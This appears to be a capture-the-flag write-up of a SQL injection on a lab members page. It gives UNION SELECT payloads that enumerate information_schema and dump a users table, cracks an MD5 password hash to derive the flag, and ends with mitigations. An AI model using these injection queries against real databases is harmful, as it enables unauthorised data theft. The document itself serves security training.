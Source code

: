 # SQL_Injection_members

## Description

A SQL injection attack consists of insertion or “injection” of a SQL query via the input data from the client to the application. A successful SQL injection exploit can read sensitive data from the database, modify database data (Insert/Update/Delete), execute administration operations on the database (such as shutdown the DBMS), recover the content of a given file present on the DBMS file system and in some cases issue commands to the operating system. SQL injection attacks are a type of injection attack, in which SQL commands are injected into data-plane input in order to affect the execution of predefined SQL commands.

## Test_sql_injection

    # input:
    "'", "--", "1 or 1=1" ...
    
    # result:
    "You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '\'' at line 1"

## Get_data

    # input:
    "1 or 1=1"
    
    # result:
    ID: 1 or 1=1 
    First name: Barack Hussein
    Surname : Obama

    ID: 1 or 1=1 
    First name: Adolf
    Surname : Hitler

    ID: 1 or 1=1 
    First name: Joseph
    Surname : Staline

    ID: 1 or 1=1 
    First name: Flag
    Surname : GetThe

## Analyze_data_and_try_to_find_information
    # Info we want to know:
    ID: 1 or 1=1 
    First name: Flag
    Surname : GetThe

    # input: (1) to find current database
    1 or 1=1 union SELECT null, table_name FROM information_schema.tables WHERE table_schema=database();

    # result: (1)
    ID: 1 or 1=1 union SELECT null, table_name FROM information_schema.tables WHERE table_schema=database(); 
    First name: 
    Surname : users

    # input: (2) to find columns informations
    1 or 1=1 union SELECT table_name, column_name FROM information_schema.columns 

    # result: (2)
    ID: 1 or 1=1 union SELECT table_name, column_name FROM information_schema.columns 
    First name: users
    Surname : user_id

    ID: 1 or 1=1 union SELECT table_name, column_name FROM information_schema.columns 
    First name: users
    Surname : first_name

    ID: 1 or 1=1 union SELECT table_name, column_name FROM information_schema.columns 
    First name: users
    Surname : last_name

    ID: 1 or 1=1 union SELECT table_name, column_name FROM information_schema.columns 
    First name: users
    Surname : town

    ID: 1 or 1=1 union SELECT table_name, column_name FROM information_schema.columns 
    First name: users
    Surname : country

    ID: 1 or 1=1 union SELECT table_name, column_name FROM information_schema.columns 
    First name: users
    Surname : planet

    ID: 1 or 1=1 union SELECT table_name, column_name FROM information_schema.columns 
    First name: users
    Surname : Commentaire

    ID: 1 or 1=1 union SELECT table_name, column_name FROM information_schema.columns 
    First name: users
    Surname : countersign

## Final_analysis
    # input: 
    1 or 1=1 union select null, concat(user_id, first_name, last_name, town, country, planet, Commentaire, countersign) from users

    # result:
    ID: 1 or 1=1 union select null, concat(user_id, first_name, last_name, town, country, planet, Commentaire, countersign) from users 
    First name: 
    Surname : 5FlagGetThe424242Decrypt this password -> then lower all the char. Sh256 on it and it's good !5ff9d0165b4f92b14994e5c685cdce28

## Get_the_flag
    5ff9d0165b4f92b14994e5c685cdce28: MD5 Hash -> crack hash: FortyTwo
    fortytwo -> SHA256: 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5


## Solutions

    - Use of Prepared Statements
    - Allow-list Input Validation
    - Escaping All User Supplied Input